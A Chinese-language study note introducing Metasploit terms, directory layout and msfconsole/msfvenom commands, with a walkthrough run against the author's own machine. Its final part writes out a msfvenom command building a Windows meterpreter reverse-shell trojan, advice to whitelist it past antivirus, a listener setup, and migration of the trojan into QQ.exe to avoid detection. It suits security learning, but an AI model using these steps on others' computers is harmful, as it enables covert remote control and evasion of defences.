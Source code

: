 ### Metasploit初步认识

#### 一、Metasploit简介

`Metasploit`全称为`The Metasploit Framework`, 简称`MSF`. 它是一个漏洞框架, 内含许多攻击模块, 涵盖了包括从操作系统到Web应用的漏洞利用、后渗透模块、扫描模块等等

本笔记使用`Ubuntu 24.04`运行Metasploit框架

#### 二、Metasploit专业术语

- `Exploit(EXP)`
指利用系统漏洞进行攻击的动作

- `Payload`
指成功exploit后, 真正在目标系统执行的代码或指令

- `Shellcode`
是Payload的一种, 由于其建立正向/反向shell而得名

- `Module`
指MSF的各种攻击模块

- `Listener`
监听

#### 三、Metasploit目录结构

```
data
———— meterpreter
———— exploit
———— wordlists
———— templates
...

modules
———— exploit
———— payload
———— auxiliary
———— encoders
———— nops
———— post

scripts
———— meterpreter
———— ps
———— resource
———— shell
...

tools
———— context
———— dev
———— exploit
———— hardware
...

plugins
———— request.rb
———— thread.rb
———— alias.rb
———— lab.rb
...
```



### Metasploit基本命令

#### 一、msfconsole

- 启动
```
msfconsole	进入控制台
server postgresql start	启动数据库
msfdb init	数据库初始化
db_status	查看数据库链接状态
```

- show
```
show exploits	查看所有可用的渗透攻击程序代码
show auxiliary	查看所有可用的辅助攻击工具
show options	查看该模块所有可用选项
show payloads	查看该模块适用的所有载荷代码
show targets	查看该模块适用的攻击目标类型
```

- 系统操作
```
search	根据关键字搜索模块
info	显示模块的详细信息
use	进入使用模块
back	回退
set/unset	设置模块参数
save	保存当前设置
```
#### 二、msfvenom
- 主要参数
```
-p	payload
-e	编码方式
-i	编码次数
-b	在生成的程序中避免出现的值
LHOST	监听的主机地址
LPORT	监听的端口
-f exe >	生成exe格式
```



### Metasploit攻击示例

#### 一、被动攻击案例
假设本机为被攻击机, 使用`ipconfig`查看ip
```
无线局域网适配器 WLAN 2:
   连接特定的 DNS 后缀 . . . . . . . :
   IPv6 地址 . . . . . . . . . . . . : 240e:430:6cb1:9725:9656:8ce7:6969:10d9
   临时 IPv6 地址. . . . . . . . . . : 240e:430:6cb1:9725:95d0:c5f1:f3e1:d037
   本地链接 IPv6 地址. . . . . . . . : fe80::c8cd:e11b:b2ef:244c%23
   IPv4 地址 . . . . . . . . . . . . : 192.168.180.244
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : fe80::c8c1:67ff:fe75:d8bc%23
                                       192.168.180.249
```

获取目标ip为`192.168.180.244`

使用`msfvenom`命令生成一个简单的远程操控木马程序
```
msfvenom payload windows/x64/meterpreter/reverse_tcp LHOS=192.168.180.244 LPORT=4444 -f exe > test.exe
```

将生成的木马程序移动到目标机的任意位置并运行

这时大概率杀毒软件会报毒, 直接加入白名单即可

回到Metasploit, 使用`use expolits/multi/handler`进入模块
```
msf6 exploit(multi/handler) >
```

使用`show options`查看选项是否正确
```
Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.
```

可以看到`Payload`和`LHOST`没有设置
```
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.180.244
```

再次查看选项
```
Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST  192.168.180.244  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.
```

所有选项正确, 使用`run`命令启动模块
```
[*] Started reverse TCP handler on 192.168.180.244:4444
```

因为之前的杀软杀掉了进程, 我们需要再次手动打开木马程序
```
[*] Sending stage (203846 bytes) to 192.168.180.244
[*] Meterpreter session 2 opened (192.168.180.244:4444 -> 192.168.180.244:57394) at 2025-03-31 14:47:43 +0800
```

成功监听到会话, 使用`help`命令就可以查看meterpreter模块的所有命令

使用`ps`命令查看所有进程

使用`migrate <pid>`可以将木马程序的进程迁移进其它正常进程中, 防止被发现
```
18860  11864  test.exe	木马程序
25260  11740  QQ.exe	腾讯QQ
```

将进程迁移到QQ内
```
meterpreter > migrate 25260
[*] Migrating from 18860 to 25260...
[*] Migration completed successfully.
```

再次使用`ps`命令, 找不到原来的`test.exe`进程

#### 二、主动攻击案例
#### 三、metasploit渗透命令
#### 四、作业